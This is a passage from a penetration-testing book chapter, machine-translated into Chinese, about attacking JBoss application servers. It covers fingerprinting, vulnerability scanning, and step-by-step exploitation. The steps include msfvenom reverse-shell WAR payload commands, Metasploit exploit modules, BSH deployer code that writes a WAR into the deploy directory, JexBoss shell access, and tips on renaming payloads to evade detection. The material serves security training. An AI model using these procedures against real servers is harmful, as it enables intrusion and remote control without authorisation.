# 技术平台上的渗透测试-JBoss

本书前面的章节解释了如何在**内容管理系统**（**CMSes**上进行渗透测试。现在，我们已经清楚地了解了不同的 CMS 体系结构以及执行测试的不同方式，让我们继续学习如何在不同的技术上执行测试。在本章中，我们将了解 JBoss、它的体系结构及其利用。对于专注于自动化基于 Java 的应用程序部署的组织来说，JBoss 是最容易部署的应用程序之一。由于其灵活的体系结构，许多组织选择 JBoss，但正是由于 JBoss 对组织的易用性，JBoss 也成为了威胁参与者的广泛目标。本章将介绍以下主题：

*   JBoss 简介

*   使用 Metasploit 在基于 JBoss 的应用服务器上执行侦察

*   JBoss 的脆弱性评估

*   借助 Metasploit 模块实现 JBoss 开发

# 技术要求

以下是本章的先决条件：

*   一个 JBoss**应用服务器****作为**实例[https://jbossas.jboss.org/](https://jbossas.jboss.org/)

*   Metasploit 框架（[https://www.metasploit.com/](https://www.metasploit.com/) ）

*   JexBoss，第三方工具（[https://github.com/joaomatosf/jexboss](https://github.com/joaomatosf/jexboss) ）

# JBoss 简介

JBoss AS 是基于开源**Java 企业版**（**Java EE**的应用服务器。该项目由马克·弗鲁里于 1999 年启动。此后，JBoss Group（LLC）于 2001 年成立，2004 年，JBoss 以 JBoss，Inc.的名义成为一家公司。2006 年初，甲骨文试图收购 JBoss，Inc.，但同年晚些时候，RedHat 成功收购了该公司。

由于 JBoss As 基于 Java，应用服务器支持跨平台安装，并且与市场上的其他专有软件不同，JBoss 以极低的价格提供相同的功能。以下是 JBoss 的一些优点：

*   基于插件的体系结构带来的灵活性
*   易于安装和设置
*   提供完整的 JavaEE 堆栈，包括**企业 JavaBeans**（**EJB**）、**Java 消息服务**（**JMS**）、**Java 管理扩展**（**JMX**）和**Java 命名和目录接口**（**JNDI**）
*   可以运行**企业应用**（**EA**）
*   是否具有成本效益

由于灵活的插件体系结构，开发人员不必花费时间为其应用程序开发服务。这里的目标是节省资金和资源，以便开发人员能够将更多的时间集中在他们正在开发的产品上。

# JBoss 架构（JBoss5）

JBoss 体系结构在过去几年中逐渐发生了变化，每一个主要版本都增加了新的服务。在本章中，我们将查看 JBossAS5 的体系结构概述，并在本章后面的*JBoss 开发*一节中介绍该体系结构的开发部分。要理解 JBoss AS 体系结构，请参考下图：



我们可以将架构分为四个主要组件，如下所示：

*   **用户应用程序**：顾名思义，该组件处理用户应用程序，包含 XML 配置文件、**Web 应用程序资源**（**WAR**文件等。这是部署用户应用程序的地方。
*   **组件部署器**：部署器用于 JBoss 部署组件。`MainDeployer`、`JARDeployer`和`SARDeployer`是 JBoss 服务器核心中的硬编码部署器。所有其他部署人员都是**托管 Bean**（**MBean**服务），它们在`MainDeployer`中注册为部署人员。
*   **企业服务**：该组件负责处理事务、安全、web 服务器等多项事务。
*   **JBoss 微容器**：可以作为 JBoss as 之外的独立容器使用。它旨在提供一个配置和管理**普通旧 Java 对象**（**POJO**的环境。

现在，让我们看看目录结构。

# JBoss 文件与目录结构

JBoss 有一个简化的目录结构。通过浏览 JBoss`home`目录并列出内容，我们可以看到如下截图所示的结构：


让我们尝试了解这些目录是什么以及它们包含哪些文件和文件夹：

*   `bin`：该目录包含所有入口点**Java 归档**（**JAR**）和脚本，包括启动和关闭。
*   `client`：此目录存储外部 Java 客户端应用程序可能使用的配置文件。
*   `common`：此目录包含服务器的所有公共 JAR 和配置文件。
*   `docs`：该目录包含 JBoss 文档和模式，在开发过程中非常有用。
*   `lib`：此目录包含 JBoss 启动所需的所有 JAR。
*   `server`：此目录包含与不同服务器配置文件相关的文件，包括生产和测试。

通过进一步进入`server`目录并列出内容，我们可以看到如下屏幕截图所示的结构：



让我们打开其中一个配置文件并了解其结构。以下屏幕截图显示了`default`文件夹的列表：


让我们看看前面屏幕截图中目录的细分：

*   `conf`：该目录包含配置文件，包括`login-config`和`bootstrap config`。
*   `data`：此目录可用于在文件系统中存储内容的服务。
*   `deploy`：此目录包含服务器上部署的 WAR 文件。
*   `lib`：`lib`目录是静态 Java 库在启动时加载到共享类路径的默认位置。
*   `log`：该目录是所有日志写入的目录。
*   `tmp`：JBoss 使用此目录存储临时文件。
*   `work`：此目录包含已编译的 JSP 和类文件。

通过进一步进入`deploy`目录并列出内容，我们可以看到各种 WAR 文件、XML 文件等，如下面的屏幕截图所示：



我们需要了解的一些文件如下：

*   `admin-console.war`是 JBoss AS 的管理控制台。
*   `ROOT.war`是`/root`web 应用程序。
*   `jbossweb.sar`是部署在服务器上的 Tomcat servlet 引擎。
*   `jbossws.sar`是支持 web 服务的 JBoss 服务。

大多数情况下，当 JBoss 管理员从服务器上删除`admin-console`、`web-console`和`JMX-console`应用程序时，我们会发现服务器上缺少`admin-console`。虽然这是保护 JBoss 实例的一种非常简洁的方法，但它对威胁参与者不起作用。JBossAS 也可以使用 MBean 进行管理。尽管 MBean 是管理员的一项功能，但它也可以作为一扇活动的门，让参与者进入网络。要访问 MBean，让我们首先了解文件和目录结构，因为这将帮助我们了解如何在此过程中访问 MBean。JBoss AS 中部署的大量 MBean 可以通过`JMX-console`和`web-console`直接访问，这引起了许多关于部署的安全问题。

在开始使用 JBoss 之前，让我们首先了解如何在 JBoss 部署中执行侦察和枚举。

# 侦察和枚举

在本节中，我们将重点介绍 JBoss 服务器的侦察和枚举。识别 JBoss 服务器有多种方法，比如 JBoss 默认监听 HTTP 端口`8080`。让我们来看一些用于 JBoss 侦察的常用技术。

# 通过主页进行检测

我们可以使用的最基本的技术之一是访问 web 服务器主页，其中显示 JBoss 徽标，如下面的屏幕截图所示：


当我们打开 JBoss 主页时，默认的 JBoss 设置会显示其他超链接，我们可以通过浏览来获取更多信息。

# 通过错误页面进行检测

有时我们会发现 JBoss 在端口`8080`上运行，但主页不可用。在这样的情况下，`404`错误页面也可以将 JBoss 作为正在使用的 JBoss 应用实例的头和版本号公开：



一个`404`错误页面可以通过打开任何随机不存在的链接生成，这将给我们一个错误，正如我们在前面的屏幕截图中看到的。

# 通过 title-HTML 标记进行检测

在某些情况下，当我们尝试访问 JBossAS 时，会得到一个空白页面。这通常是为了保护主页免受公众曝光和未经验证的访问。由于主页包含非常有价值的信息，JBoss 管理员倾向于通过反向代理身份验证或从应用程序中删除 JMX 控制台、web 控制台和管理控制台来保护页面（如本章前面提到的）。这些控制台将在本章的扫描和开发阶段进一步讨论：



如果我们得到一个空白页面，我们仍然可以通过 HTML`<title>`标记识别 JBoss，它在页面标题中披露了一些信息，如前面的屏幕截图所示。

# 通过 X-Powered-By 进行检测

JBoss 还在 HTTP 响应头中公开了它的版本号和构建信息，如下面的屏幕截图所示。我们可以在`X-Powered-By`HTTP 响应头中找到版本和构建信息。即使无法访问管理控制台或 web 控制台，这也是可见的，因为 JBoss 中部署的应用程序没有配置为隐藏头：



大多数威胁参与者通过搜索 Shodan、Censys 等上的相同头信息来检测 JBoss AS 的使用。在撰写本书时，有 19000 多个 JBoss 作为服务器，如果配置不安全，可能会被利用：


威胁参与者寻找这些信息，并运行自动扫描程序来查找易受攻击的 JBoss 实例。一旦被利用，JBoss 可以为参与者打开进入组织网络的大门。

# 通过 hashing favicon.ico 进行检测

笔测试人员通常不知道这种技术，因为它涉及到图标的散列。这实际上是判断服务器是否正在运行 JBoss AS 的另一种很酷的方法。我们可以对`favicon.ico`文件（图标文件）进行 MD5 散列，如下图所示：


在 OWASP favicon 数据库中搜索哈希将显示服务器是否正在运行 JBoss：


由于 OWASP favicon 数据库非常有限，我们始终可以创建自己的数据库来执行此活动。

# 通过样式表（CSS）进行检测

查看 HTML 源代码，我们可以看到 JBoss 样式表（`jboss.css`），如下面的屏幕截图所示，这清楚地表明 JBoss AS 正在运行：


有时，管理员会更改 JBoss 文件的命名约定，但在这样做的过程中，他们忘记了添加必要的安全配置。现在，我们已经手动收集了用于识别 JBoss 作为实例的使用的信息，让我们尝试使用 Metasploit 来识别该实例。

# 使用 Metasploit 执行 JBoss 状态扫描

Metasploit 还内置了用于 JBoss 枚举的辅助模块，其中一个是`auxiliary/scanner/http/jboss_status`。此模块查找状态页面，该页面显示正在运行的应用程序服务器的状态历史记录。我们可以使用`msfconsole`中的以下命令加载模块：

```
use auxiliary/scanner/http/jboss_status
show options
```

以下屏幕截图显示了前面命令的输出：


前面的屏幕截图显示了模块运行辅助程序所需的选项。一旦我们设置了选项，然后运行辅助程序，如下面的屏幕截图所示，服务器将根据发现的状态页面确认应用程序服务器是 JBoss：


该模块在带有以下正则表达式的页面上查找文本：


该模块执行以下操作：

1.  它向服务器发送`GET`请求以查找`/status`页面（默认页面设置为`Target_uri`选项）。
2.  如果它找到来自服务器的`200 OK`响应，它将在 HTML`<title>`标记中查找`Tomcat Status`字符串。
3.  如果找到标记，模块将根据正则表达式查找数据，如前面的屏幕截图所示。

当模块执行时，源 IP、目标 IP 和被调用页面由 JBoss 存储。然后将这些信息打印出来。我们可以在`/status`页面中查看，如以下截图所示：


`jboss_status`模块查找此特定信息，以对 JBoss AS 的实例进行指纹识别。

# JBoss 服务枚举

在**JBoss Web Service**（**JBoss WS**上运行的服务列表也可以为我们提供有关 JBoss 服务器的信息：


打开 JBoss WS URI（即浏览到`/jbossws/services`将确认 JBoss AS 是否正在运行，如前面的屏幕截图所示。现在，我们已经更好地了解了如何枚举运行服务的 JBoss 并收集有关它们的更多信息，让我们继续下一节，它将向我们展示如何在 JBoss 实例上执行漏洞扫描

# 在 JBoss AS 上执行漏洞评估

如果我们在一台机器上找到一个 JBoss 作为实例，并且我们需要执行漏洞评估，那么我们总是可以使用 Metasploit 进行评估。Metasploit 为此提供了一个名为`auxiliary/scanner/http/jboss_vulnscan`的模块，我们可以使用它在 JBoss AS 上执行漏洞扫描。该模块检查一些漏洞，如身份验证旁路、默认密码和可访问的`JMX-console`功能。以下是我们在 JBoss 上进行漏洞评估时可以观察到的步骤：

1.  要使用`jboss_vulnscan`，我们在`msfconsole`中键入以下命令：

```
use auxiliary/scanner/http/jboss_vulnscan
show options
```

以下屏幕截图显示了前面命令的输出：


2.  我们设置了所需的选项，如图所示：


3.  运行扫描程序后，它将检查各种漏洞，并报告服务器上发现的漏洞，如图所示：


本模块查看应用程序中的特定文件以及在不同端口上运行的 Java 命名服务。

# 使用 JexBoss 进行漏洞扫描

还有另一个非常强大的工具，叫做 JexBoss，它是为 JBoss 和其他技术枚举和利用案例而设计的。它是由 João F.M.Figueiredo 开发的。在本节中，我们将快速了解如何使用 JexBoss。可在[下载并安装该工具 https://github.com/joaomatosf/jexboss](https://github.com/joaomatosf/jexboss) 。

设置完毕后，我们可以使用以下命令运行该工具：

```
./jexboss.py -u http://<websiteurlhere.com>
```

让我们使用此工具（如下屏幕截图所示）查找 JBoss AS 实例中的漏洞：


前面屏幕截图中使用的命令将查找易受攻击的 ApacheTomcatStruts、servlet 反序列化和 Jenkins。该工具还将检查各种 JBoss 漏洞，我们将发现服务器是否容易受到这些漏洞的攻击。

# 易受攻击的 JBoss 入口点

正如我们所知，JBoss 附带了许多功能齐全且可操作的附加组件和扩展，如 JNDI、JMX 和 JMS，因此 JBoss 开发的可能入口点数量相应增加。下表列出了可用于 JBoss 侦察和利用的易受攻击的 MBean 及其各自的服务和方法名称：

| **类别** | **MBean 域名** | **MBean 服务名称** | **MBean 方法名称** | **MBean 方法说明** |
| 剥削 | `jboss.system` | `MainDeployer` | `deploy()``undeploy()`，以及`redeploy()` | `deploy()`方法用于部署应用程序`undeploy()`方法用于取消部署应用程序。服务器使用`redeploy()`方法重新部署存储在服务器本身（本地文件）中的已部署应用程序。 |
| 侦察 | `jboss.system` | `Server` | `exit()``shutdown()`，以及`halt()` | `exit()`、`shutdown()`和`halt()`方法都是非常危险的方法。威胁参与者可以使用这些方法通过关闭应用程序服务器来中断服务。 |
| 侦察 | `jboss.system` | `ServerInfo` | 不适用 | 不适用 |
| 侦察 | `jboss.system` | `ServerConfig` | 不适用 | 不适用 |
| 剥削 | `jboss.deployment` | `DeploymentScanner` | `addURL()`及`listDeployedURLs()` | `addURL()`方法用于通过 URL 为部署添加远程/本地应用程序。`listDeploymentURLs()`方法用于列出所有先前部署的应用程序及其 URL。此方法有助于查明当前 JBoss AS 实例是否已被利用。 |
| 剥削 | `jboss.deployer` | `BSHDeployer` | `createScriptDeployment()`，`deploy()`，`undeploy()`，以及`redeploy()` | `createScriptDeployment()`方法用于通过**Bean Shell**（**BSH**脚本）部署应用程序。此方法中应提及脚本内容以进行部署。然后 MBean 创建一个具有`.bsh`扩展名的临时文件，用于部署。`deploy()`、`undeploy()`和`redeploy()`方法用于使用 BSH 脚本管理部署。 |
| 剥削 | `jboss.admin` | `DeploymentFileRepository` | `store()` | 部署人员使用`store()`方法存储文件名及其扩展名、文件夹名和时间戳。威胁参与者只需提及包含上述信息的 WAR 文件，有效负载将直接部署在服务器上。 |

将`MainDeployer`MBean 作为部署入口点，所有组件部署请求都发送到`MainDeployer`。`MainDeployer`可以部署战争档案、**JARs**、**企业应用档案**（**EARs**）、**资源档案**（**RARs**）、**休眠档案**（**HARs**、**服务档案**（【T20 SARs），**BSHes**和许多其他部署包。

# JBoss 开发

现在我们已经清楚地了解了 JBoss 的侦察和漏洞扫描功能，让我们了解一下 JBoss 的漏洞利用。我们可以使用以下几种基本方法来利用 JBoss：

*   通过**管理控制台**（`admin-console`进行 JBoss 攻击
*   使用`MainDeployer`服务通过 JMX 控制台进行 JBoss 攻击
*   使用`MainDeployer`服务（Metasploit 版本）通过 JMX 控制台利用 JBoss 进行攻击
*   使用`BSHDeployer`服务通过 JMX 控制台进行 JBoss 攻击
*   使用`BSHDeployer`服务（Metasploit 版本）通过 JMX 控制台利用 JBoss 进行攻击
*   使用 Java 小程序通过 web 控制台进行 JBoss 攻击
*   使用`Invoker`方法通过 web 控制台进行 JBoss 攻击
*   使用第三方工具通过 web 控制台利用 JBoss

让我们逐一介绍这些方法。

# 通过管理控制台利用 JBoss 进行攻击

在本节中，我们将开始开发过程。第一步是访问管理控制台，默认情况下，管理控制台配置的用户名和密码分别为`admin`和`admin`。以下屏幕截图显示管理登录页面：


成功登录后，我们将看到以下屏幕截图中显示的页面：


利用该漏洞的下一步是找到在服务器上执行命令的方法，以便获得服务器级访问权限。从左侧菜单中，选择 Web 应用程序（WAR）选项，您将被重定向到以下屏幕截图所示的页面。我们将单击添加新资源按钮：


这将把我们带到一个新页面，在那里我们可以选择上传 WAR 文件。可以使用`msfvenom`和以下命令生成 WAR 文件：

```
msfvenom -p java/meterpreter/reverse_tcp lhost=<Metasploit_Handler_IP> lport=<Metasploit_Handler_Port> -f war -o <filename>.war
```

生成基于 WAR 的 Metasploit 负载后，我们将把文件上载到控制台的 Web 应用程序（WAR）部分，如下面的屏幕截图所示：


成功上传文件后，我们只需转到文件解压缩到的目录，并在 web 浏览器上打开它即可获得 MeterMeter 连接，如以下屏幕截图所示：


在运行有效载荷之前，我们需要考虑一些事情，最重要的是检查出口连接。如果执行了有效负载，但防火墙阻止了到服务器的出口流量（出站连接），那么我们需要找到一种方法来获得反向 shell。如果没有办法，我们可以选择绑定到服务器的连接。

# 通过 JMX 控制台（MainDeployer 方法）进行攻击

考虑下面的官方 JBOSS 文档中的引用（在 www.https://docs.jboss.org/jbossas/docs/Getting_Started_Guide/4/html-single/index.html ：

JMX 控制台是 JBoss 管理控制台，它提供组成服务器的 JMX MBean 的原始视图。它们可以提供有关正在运行的服务器的大量信息，并允许您修改其配置、启动和停止组件等

如果我们发现 JBoss 的开放实例具有未经验证的 JMX 控制台访问权限，我们可以使用`MainDeployer`选项将 shell 上传到服务器。这允许我们从 URL 获取 WAR 文件并将其部署到服务器上。JMX 控制台显示在以下屏幕截图中：


让我们实施以下利用步骤：

1.  在控制台页面上，搜索`MainDeployer`服务选项，如图所示：



2.  单击该选项会将我们重定向到一个新页面，如图所示：



3.  通过进一步向下滚动页面，我们将看到多个`deploy`方法。选择`URL Deploy`方法，这将允许我们从远程 URL 获取 WAR 文件：



4.  让我们使用以下命令生成基于战争的 Metasploit 负载：

```
Msfvenom -p java/meterpreter/reverse_tcp lhost=<Metasploit_Handler_IP> lport=<Metasploit_Handler_Port> -f war -o <filename>.war
```

5.  我们现在需要在 HTTP 服务器上托管 WAR 文件，并将 URL 粘贴到输入字段中，如图所示：


6.  让我们设置利用漏洞处理程序，如图所示：


7.  成功调用后，我们将从服务器收到以下消息：


我们的`s.war`有效载荷已部署。

8.  接下来，我们需要找到正确的 stager 名称，以便调用该文件。让我们解压缩 Metasploit 生成的文件，如图所示：



我们在`web.xml`文件中找到 servlet 名称：


9.  让我们通过将 servlet 名称添加到 URL 来调用负载，如以下屏幕截图所示：


10.  输出将为空，但我们可以在 Metasploit 漏洞处理程序上检查 stager 请求，如图所示：


最好是自定义 WAR 文件并使用常见的技术混淆内容。此外，为了帮助进一步避免检测，我们需要将文件名从随机名称更改为更具体、更常见的名称，例如`login.jsp`、`about.jsp`或`logout.jsp`。

# 使用 Metasploit（MainDeployer）通过 JMX 控制台进行攻击

Metasploit 还有一个内置的漏洞利用模块，可以使用`MainDeployer`方法利用 JMX 控制台进行漏洞利用。现在让我们使用 Metasploit 模块通过 JMX 控制台上传 shell。我们使用以下命令加载该漏洞：

```
use exploit/multi/http/jboss_maindeployer
```

我们将看到以下可用选项：


我们可以设置所需的选项，如`rhosts`、`rport`等，如图所示：


设置好所有内容后，我们可以运行漏洞攻击，Metasploit 将执行与上一节中手动执行的步骤相同的步骤，以允许我们访问服务器上的 MeterMeter，如图所示：


有时，如果 JMX 控制台受身份验证保护，则模块可能无法工作。我们总是可以尝试对身份验证执行字典攻击，如果成功，我们可以通过设置`HttpUsername`和`HttpPassword`选项在该模块上使用用户名和密码（在字典攻击期间找到）。

# 通过 JMX 控制台（BSHDeployer）进行攻击

通过 JMX 控制台在 JBoss 上实现代码执行的另一种方法是使用**BeanShell Deployer**（`BSHDeployer`。`BSHDeployer`允许我们以 Bean shell 脚本的形式在 JBoss 中部署一次性执行脚本和服务，访问 JMX 控制台后，我们可以查找`service=BSHDeployer`对象名称，如图所示：


单击此对象将重定向到 deployer 页面，如图所示：


这里，我们需要将用于在服务器上部署负载的 BSH 文件的 URL 放在服务器上。一个简单的方法是通过`BSHDeployer`使用第三方工具进行利用，如 JexBoss。这也可以使用 Metasploit 实现，我们现在将看到这一点。

# 使用 Metasploit（BSHDeployer）通过 JMX 控制台进行攻击

Metasploit 还可用于部署 BSH，以在服务器上执行代码。Metasploit 具有用于此目的的`jboss_bshdeployer`漏洞利用模块，因此让我们看看它的用法。我们可以使用以下命令在`msfconsole`中加载漏洞：

```
Use exploit/multi/http/jboss_bshdeployer
```

要查看选项列表，我们需要键入`show options`，如图所示：


然后，我们需要在运行漏洞利用之前设置相应的选项，如图所示：


我们需要设置我们在这个模块中使用的有效负载（默认情况下，`java/meterpreter/reverse_tcp`）。一个普遍的选择是使用基于 Java 的 MeterMeter，但是在 Java 负载不起作用的情况下，我们总是可以尝试使用基于 OS 风格和体系结构的负载

在运行该漏洞时，Metasploit 将创建一个 BSH 脚本并调用部署程序，然后部署程序将部署并提取外壳代码。调用 JSP 外壳代码将执行有效负载，我们将获得一个反向连接，如图所示：


现在我们知道了如何通过`BSHDeployer`利用 JMX 控制台，让我们看看通过 web 控制台进行利用。

# 通过 web 控制台（Java 小程序）进行攻击

在本节中，我们将讨论 JBoss web 控制台。请注意，JBoss web 控制台已被弃用，并被管理控制台取代，但它对我们仍然有用，因为在 JBoss 服务器的旧版本上，web 控制台仍然可以被利用。在浏览器中打开 web 控制台时，我们也可能会遇到一些错误，如图所示：



要允许小程序运行，我们需要更改 Java 安全设置，并将 JBoss 实例的域名和 IP 地址添加到 Java 异常站点列表中，如下所示：


添加异常后，我们仍然会从浏览器中收到警告，但我们可以继续并单击“继续”，如图所示：


在下一个弹出窗口中，我们需要单击 Run 按钮以允许应用程序运行，如图所示：


然后，我们将看到 JBoss 服务器的 web 控制台。在这里，我们可以继续上一节介绍的步骤，使用`MainDeployer`上传 shell。如以下屏幕截图所示，我们只需在左侧窗格中查找并选择对象：


点击`MainDeployer`项，进入 WAR 文件可以部署到服务器上实现代码执行的页面，如图所示：


默认情况下，运行 Java 小程序在大多数浏览器中都是禁用的，因此有时候，在发现 JBoss 服务器时访问 web 控制台页面时，我们可能只会得到一个空白页面。打开 web 控制台时遇到空白页面并不意味着服务无法访问。这只意味着我们必须稍微调整浏览器，以允许 Java 小程序执行。

# 通过 web 控制台（调用程序方法）进行攻击

另一种利用 JBoss 作为实例的方法是通过 web 控制台的`Invoker`方法。在请求`/web-console/Invoker`URI 路径的同时执行`curl`命令将从服务器获得一个响应，文件的前 4 个字节中包含`0xAC`和`0xED`十六进制代码字符（`aced`。我们可以在任何 Java 序列化对象的开头看到这一点，如下所示：


`Invoker`servlet 可以在 web 控制台中找到，也可以在`http://example.com/web-console/Invoker`的`Invoker`中找到。这大部分可以在没有身份验证的情况下访问。我们可以向这个`Invoker`发送一个序列化 post 请求，以便在服务器上执行命令。

以下是前面屏幕截图中的字节细分：

*   **ac ed**：`STREAM_MAGIC`**指定这是一个序列化协议。**
***   **00O5**：`STREAM_VERSION`指定正在使用的序列化版本。*   **0x73**：`TC_OBJECT`指定这是一个新对象。*   **0x72**：`TC_CLASSDESC`指定这是一个新类。*   **00 24**：指定类名的长度*   **{6F 72 67 2E 6A 62 6F 73****73 2E 69 6E 76 6F 63 61****74 69****6F 6E 2E 4D 61 72****73 68 61 6C 65 64 56****61 6C 75 65】**【T12 org.jboss。invocation.MarshalledValue：指定类名。*   **EA CC E0 D1 F4 4A D0 99**：`SerialVersionUID`指定该类的串行版本标识符。*   **0x0C**：指定标签号。*   **00**：指定该类字段的个数。*   **0x78**：`TC_ENDBLOCKDATA`标记块对象的结束。*   **0x70**：`TC_NULL`表示不再有超类，因为我们已经到达了类层次结构的顶部。*   使用第三方工具通过 web 控制台进行攻击。**

 **在进入 Metasploit 的模块之前，让我们看看由 RedTeam Pentesting 开发的另一组脚本。可以从他们的网站[下载归档文件 https://www.redteam-pentesting.de/files/redteam-jboss.tar.gz](https://www.redteam-pentesting.de/files/redteam-jboss.tar.gz) 。

存档包含以下文件：

*   `BeanShellDeployer/mkbeanshell.rb`
*   `WAR/shell.jsp`
*   `WAR/WEB-INF/web.xml`
*   `Webconsole-Invoker/webconsole_invoker.rb`
*   `JMXInvokerServlet/http_invoker.rb`
*   `JMXInvokerServlet/jmxinvokerservlet.rb`
*   `jboss_jars/console-mgr-classes.jar`
*   `jboss_jars/jbossall-client.jar`
*   `README`
*   `setpath.sh`
*   `Rakefile`

以下屏幕截图显示了团队发布的不同脚本：



我们可以使用此工具创建自定义 BSH 脚本，通过 web 控制台`Invoker`部署 BSH 脚本，创建`JMXInvokerServlet`负载，等等。让我们看看如何使用此工具创建 BSH 脚本。

# 创建 BSH 脚本

存档中的脚本之一是`mkbeanshell`。此脚本将 WAR 文件作为输入，然后创建 BSH 脚本作为输出：

1.  通过使用`-h`标志执行脚本，我们可以看到所有可用选项的列表，如图所示：


2.  现在，我们可以使用以下命令创建 BSH：

```
./mkbeanshell.rb -w <war file> -o <the output file>
```

命令的输出（即 BSH 脚本）将保存在输出文件中，如前一个命令所述。在本例中，创建的文件为`redteam.bsh`，如下图所示：


3.  源文件（即本例中使用的 WAR 文件）是通用有效负载文件。在这个 WAR 文件中是我们的 JSP web shell，其内容可以在以下屏幕截图中看到：


4.  默认情况下，如果我们打开创建的 BSH 脚本，我们将看到它使用服务器上的`/tmp/`目录来提取和部署 WAR 归档文件。现在，Windows 服务器没有`/tmp/`目录，`mkbeanshell`Ruby 脚本只有更改路径的选项，在大多数情况下，我们可能根本不知道服务器上的路径。以下屏幕截图显示了 BSH 脚本的代码：



5.  我们可以将最后几行代码（在上一个屏幕截图中）替换为以下几行代码，以获取通用文件位置：

```
BASE64Decoder decoder = new BASE64Decoder();
String jboss_home = System.getProperty("jboss.server.home.dir");
new File(jboss_home + "/deploy/").mkdir();
byte[] byteval = decoder.decodeBuffer(val);
String location = jboss_home + "/deploy/test.war";FileOutputStream fstream = new
FileOutputStream(location);fstream.write(byteval);fstream.close();
```

6.  在这里，我们可以看到`System.getProperty("jboss.server.home.dir");`获取 JBoss 目录。这是一个独立于平台的代码，可以在 Windows 以及基于*nix 的服务器上使用。我们需要做的就是使用`new File(jboss_home + "/deploy/").mkdir();`在`home`目录中创建一个名为`deploy`的新目录，然后`Base64`被解码并写入`deploy`目录中作为`test.war`。以下屏幕截图显示了进行这些更改后 BSH 脚本的最终代码：



一旦 BSH 脚本准备好，我们就可以使用`webconsole_invoker.rb`脚本，它与第三方工具`redteam-jboss.tar.gz`一起提供，将我们的 BSH 脚本作为实例远程部署到 JBoss 上。

# 使用 webconsole_invoker.rb 部署 BSH 脚本

我们可以使用`webconsole_invoker.rb`脚本部署 BSH 脚本：

1.  使用`-h`标志执行 Ruby 脚本将向我们显示一个选项列表，如以下屏幕截图所示：


2.  现在，我们运行脚本并传递目标`Invoker`URL 和`Invoke`方法。在我们的例子中，我们将使用`createScriptDeployment()`方法。此方法采用两种输入类型，都是`String`，因此我们在`-s`标志中传递它们，然后我们传递到我们的 BSH 文件的路径（文件名和部署人员的名称通过`-p`标志传递），如图所示：


3.  执行脚本后，将部署我们的`test.war`文件，该文件将在我们的`home`目录中的`/test/`目录中创建我们的 shell：


浏览 URL 允许我们访问上传的基于 JSP 的 web shell，如前面的屏幕截图所示。

# 通过 JMXInvokerServlet（JexBoss）进行攻击

另一个利用 JBoss 的好工具是 JexBoss。JexBoss 是一种用于测试和利用 jbossas 和其他 Java 平台、框架和应用程序中的漏洞的工具。它是开源的，可在 GitHub 上访问[https://github.com/joaomatosf/jexboss](https://github.com/joaomatosf/jexboss) ：

1.  下载并运行该工具后，只需轻击几下键盘即可执行该攻击。我们需要做的就是使用以下命令传递正在运行的 JBoss 服务器的 URL：

```
./jexboss.py --jboss -P <target URL>
```

如果 Python 没有正确配置，我们可以使用`python jexboss.py --jboss -P`语法执行前面的命令。两种选择都有效。

2.  如以下屏幕截图所示，该工具已识别出多个易受攻击的端点，可利用这些端点访问服务器。我们将使用与`Invoker`类似的`JMXInvokerServlet`，接收序列化的 post 数据：



3.  当工具要求确认利用时，选择`yes`：


4.  一旦攻击完成，我们将获得一个 shell，通过它我们可以在服务器上执行命令，如图所示：


还可以使用`jexremote`命令进行进一步开发。现在我们已经更好地了解了使用 JexBoss 开发 JBoss，让我们继续下一节使用 Metasploit 通过`JMXInvokerServlet`进行开发

# 使用 Metasploit 通过 JMXInvokerServlet 进行开发

Metasploit 还有一个用于`JMXInvokerServlet`的模块，可以使用以下命令加载该模块：

```
Use exploit/multi/http/jboss_invoke_deploy
```

在使用此`exploit`模块之前，我们需要确保服务器上存在`/invoker/JMXInvokerServlet`URI 路径。如果路径不存在，则攻击将失败。以下屏幕截图显示了前面命令的输出：


要查看`/invoker/JMXInvokerServlet`URI 路径是否存在，可以使用以下命令进行确认：


如果服务器以字节形式响应序列化数据，从`ac ed`开始，我们可以运行漏洞攻击，这将使我们能够通过 MeterMeter 访问服务器，如下面的屏幕截图所示：


**Note: **In cases where we are not able to get a successful reverse shell, we can always opt for bind shell connections.

# 总结

在本章中，我们学习了 JBoss 的基础知识，然后继续学习文件和目录结构。接下来，我们看了 JBoss 的枚举，然后我们继续使用 Metasploit 框架进行漏洞评估，然后通过管理控制台进入漏洞利用过程。最后，我们通过 web 控制台进行了利用。

在下一章中，我们将学习 ApacheTomcat 上的 pentesting。

# 问题

JBoss 可以免费下载吗？

# 进一步阅读

JBoss 目录结构：

*   [https://www.protechtraining.com/content/jboss_admin_tutorial-directory_structure](https://www.protechtraining.com/content/jboss_admin_tutorial-directory_structure)
*   [https://access.redhat.com/documentation/en-us/jboss_enterprise_application_platform/5/html/administration_and_configuration_guide/server_directory_structure](https://access.redhat.com/documentation/en-us/jboss_enterprise_application_platform/5/html/administration_and_configuration_guide/server_directory_structure)

Java 序列化格式：

*   [https://www.programering.com/a/MTN0UjNwATE.html](https://www.programering.com/a/MTN0UjNwATE.html)
*   [https://www.javaworld.com/article/2072752/the-java-serialization-algorithm-revealed.html](https://www.javaworld.com/article/2072752/the-java-serialization-algorithm-revealed.html)**